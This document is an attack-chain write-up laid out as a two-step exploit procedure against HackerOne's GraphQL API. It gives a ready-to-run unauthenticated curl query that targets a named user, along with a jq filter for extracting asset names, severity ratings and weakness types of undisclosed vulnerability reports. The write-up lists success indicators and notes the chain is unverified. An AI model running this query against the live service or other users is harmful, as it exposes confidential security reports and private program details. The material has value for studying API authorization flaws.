

# Information Disclosure of Undisclosed Report Metadata via HackerOne GraphQL API

Multi-stage attack chain demonstrating a complete attack workflow to extract sensitive metadata from undisclosed reports on the HackerOne platform via its GraphQL API.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- None (uses standard HTTP clients like curl)

### Target Environment

- Web platform
- HackerOne GraphQL API at https://hackerone.com/graphql
- No specific ports required (HTTPS/443)

### Initial Access Requirements

- Public internet access to HackerOne
- No authentication required for the UserMiniProfile query
- Knowledge of target usernames (e.g., from public profiles)

## Detailed Attack Procedures

### Step 1: Query User Profile
procedure: [[procedures/Query-GraphQL-UserMiniProfile-for-Retest-Metadata]]

**Objective**: Fetch the user's mini profile including report retests to access metadata on retested reports.

**Instructions**: Send a GraphQL POST request to the /graphql endpoint using the UserMiniProfile operation, targeting a specific username. This retrieves the report_retests field which includes nodes with potential undisclosed report data.

Execute [[commands/graphql-user-miniprofile-query]] with the target username:

```bash
curl -X POST https://hackerone.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"operationName":"UserMiniProfile","variables":{"username":"msdian7"},"query":"query UserMiniProfile($username: String!) {\n  user(username: $username) {\n    id\n    ...UserMiniProfileLayout\n    __typename\n  }\n}\n\nfragment UserMiniProfileLayout on User {\n  id\n  large_profile_picture: profile_picture(size: large)\n  name\n  username\n  bio\n  reputation\n  signal\n  report_retests{total_count,approved_count,nodes{report{_id},created_at,asset_name,asset_type,award_amount,claimed_at,report_state,weakness_name,severity_rating,report_substate,report_retest_users{total_count,nodes{_id,user{username},state,invitation{id}}}}}\n  cleared\n  __typename\n}"}'
```

**Expected Output**: JSON response with user data and report_retests array containing nodes like {"report": null, "asset_name": "https://www.hackerone.com", "asset_type": "URL", "severity_rating": "low", "weakness_name": "Information Disclosure"}.

**Success Indicators**:
- Response contains report_retests.nodes array
- At least one node with "report": null indicating undisclosed reports

### Step 2: Analyze Response
procedure: [[procedures/Analyze-GraphQL-Response-for-Undisclosed-Reports]]

**Objective**: Parse the GraphQL response to identify and extract metadata from undisclosed reports where report is null.

**Instructions**: Review the JSON response from the query, focusing on the report_retests.nodes. Filter for entries where "report" is null and extract fields such as asset_name, asset_type, severity_rating, weakness_name, report_state, report_substate, and retester details.

Use standard JSON processing tools like jq to filter:

```bash
echo 'response_json_here' | jq '.data.user.report_retests.nodes[] | select(.report == null) | {asset_name, asset_type, severity_rating, weakness_name}'
```

**Expected Output**: Extracted metadata objects, e.g., {"asset_name": "https://www.hackerone.com", "asset_type": "URL", "severity_rating": "medium", "weakness_name": "Information Disclosure"}.

**Success Indicators**:
- Metadata extracted for undisclosed reports
- Sensitive details like asset names and severity ratings revealed
- Potential identification of private HackerOne programs

## Attack Chain Summary

### Key Achievements

1. Successful query of GraphQL UserMiniProfile without authentication
2. Extraction of metadata from retested but undisclosed reports
3. Revelation of private program details and vulnerability info on HackerOne

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Reconnaissance]]

---
*Last updated: 2023-10-01T00:00:00Z*
